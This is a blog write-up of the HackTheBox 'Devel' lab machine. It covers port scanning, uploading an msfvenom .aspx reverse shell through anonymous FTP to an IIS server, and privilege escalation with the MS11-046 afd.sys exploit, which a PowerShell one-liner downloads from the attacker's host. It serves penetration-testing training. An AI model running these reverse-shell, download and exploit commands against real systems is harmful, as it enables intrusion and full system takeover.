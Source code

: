 ```yaml
---
title: HackTheBox - Devel
date: 2021-03-01 14:43:00 +/- 0000
categories: [HackTheBox,Easy]
author: Connor Weeks-Pearson
tags: [devel]
image: /assets/img/Icons/Devel/devel.png
---
```


Although it's been a while since my last upload due to getting a new job, i thought it was time to get back on the grind, starting with Devel. This was my second machine rooted without using Metasploit. This machine exploits a Windows web server with anonymous upload privileges via FTP enabled. Once inside, i used "afd.sys" (MS11-046) to esculate priviledges and gain root!

## Summary

- Port scan using NMAP
- Upload MSFVenom generated .apsx shell to web server via FTP
- Elevate privilidges using 'afd.sys' to gain root

---

***Machine IP: 10.10.10.5***

## Reconnaissance
### NMAP

`nmap -n -p- -sV -T 5 10.10.10.5`

![nmap](/assets/img/Icons/Devel/nmap1.png)

FTP is open and so is port 80. Further enumeration:

`nmap -p 80,21 -sC -sV -O 10.10.10.5`

![nmap2](/assets/img/Icons/Devel/nmap2.png)

FTP anonymous login is allowed! Maybe we can exploit this? It also containts an aspnet_client. What is it?

### FTP

Anonymous FTP is enabled. We also have the ability to upload files using PUT.

![ftp1](/assets/img/Icons/Devel/ftp1.png)

These are the files located within the FTP directory.

![ftp2](/assets/img/Icons/Devel/ftp2.png)

### HTTP

![http1](/assets/img/Icons/Devel/http1.png)

It seems the website is hosted in the same root directory as FTP. As the file “iisstart.htm” is reachable.
Maybe we could upload something via FTP and access it via HTTP?

Creating a simple test.html file and upload it via FTP

![http2](/assets/img/Icons/Devel/http2.png)

Then The on the browser navigate to 10.10.10.5/test.html

![http3](/assets/img/Icons/Devel/http3.png)

It works, confirming that files uploaded by FTP and navigated to are executed by the webserver. The webserver is 
Microsoft IIS 7.5

Maybe we can upload a reverse shell via FTP and get the web server to execute it?

#### IIS 7.5

After some googling to find out more about IIS 7.5, i stumbled across this website.

https://stackify.com/iis-web-server/

It highlights that the webserver can do much more than host “ASP.NET apps".

Okay, but what are ASP.NET apps? After some more googling it seems they use the extension .aspx

As per https://fileinfo.com/extension/aspx

An ASPX file is an Active Server Page Extended (ASPX) file, which is a webpage generated by web servers running the Microsoft ASP.NET framework.

Well our webserver is running the ASP.NET framework, and so we could create a payload with the extension .aspx and get the webserver to execute it!

## Exploitation

So now we know that our web server executes .aspx files, we can create a payload using msfvenom with the .aspx extention, and upload it to the root directory.

So first of all, lets check .aspx is a valid format for msfvenom.

`msfvenom --list format | grep aspx`

![aspx1](/assets/img/Icons/Devel/aspx1.png)

Both the aspx and aspx-exe extensions are available, great!

Now lets find a windows reverse shell. We will not use meterpreter as it is not available on the OSCP.

`msfvenom --list payloads | grep windows/shell`


<pre>windows/shell_reverse_tcp                  Connect back to attacker and spawn a command shell</pre>

Perfect!

Now lets create a .aspx payload called rshell.aspx

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o rshell.aspx`

and then upload it using FTP.

`put rshell.aspx`

Start a netcat listener on port 4444, or any port you like, and get the web server to execute the file. 

![shell](/assets/img/Icons/Devel/shell.png)

Navigating to Users, we can see we have 2 accounts:
- Admin
- babis

However, we do not have access to either.

![shell3](/assets/img/Icons/Devel/shell3.png)

Time for some priviledge esculation.

## Priviledge Esculation
### System information

Lets start by finding out some information about our target machine:

![sysinfo](/assets/img/Icons/Devel/privesc.png)

It looks as though Windows 7 Enterprise version 6.1.7600 is running, and it has not been patched!
Lets have a look for some exploits on google.

https://www.exploit-db.com/exploits/40564

This looks like exactly what we need. Lets have a look at the exploit notes:

![exploit](/assets/img/Icons/Devel/exploit.png)

It seems the exploit will be compiled within our host machine, and then uploaded to the target machine before execution.

### Compiling

First, lets get the file onto our host machine. As the website shows the file is EDB verified, we should be able to find it in searchsploit.

`searchsploit -m 40564`

Rename the file to MS11-046.c using mv, and then run the command given within the exploit. The compiling will fail, due to our host system not having mingw installed. We can install this using:

`sudo apt-get install mingw-w64`

Re-run the command, and it will compile.

![compiled](/assets/img/Icons/Devel/compiled.png)

Great, we now have an executable! Now to get it on the target machine.

### Esculating

The target machine does not have netcat installed, however it does have Windows powershell, so we will use that to connect back to our host machine and download the file.

Start with a Simple python server:

`python -m SimpleHTTPServer 6666`

and then on the remote machine, use powershell to connect back to the host, and download the file.

This website gives a good insight into how to do this using (new-object System.Net.WebClient).DownloadFile

https://blog.ropnop.com/transferring-files-from-kali-to-windows/#http

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:6666/MS11-046.exe' , ‘c:\Users\Public\Downloads\MS11-046.exe’)"`

Navigate to /Users/Public/Downloads

![transferred](/assets/img/Icons/Devel/transferred.png)

We can see the file is there! Execute it!

![root](/assets/img/Icons/Devel/root.png)

We have root!!

## Flags
Here are the flags for this machine!

**User:**
![user](/assets/img/Icons/Devel/user.png)

**Root:**
![Root](/assets/img/Icons/Devel/root2.png)

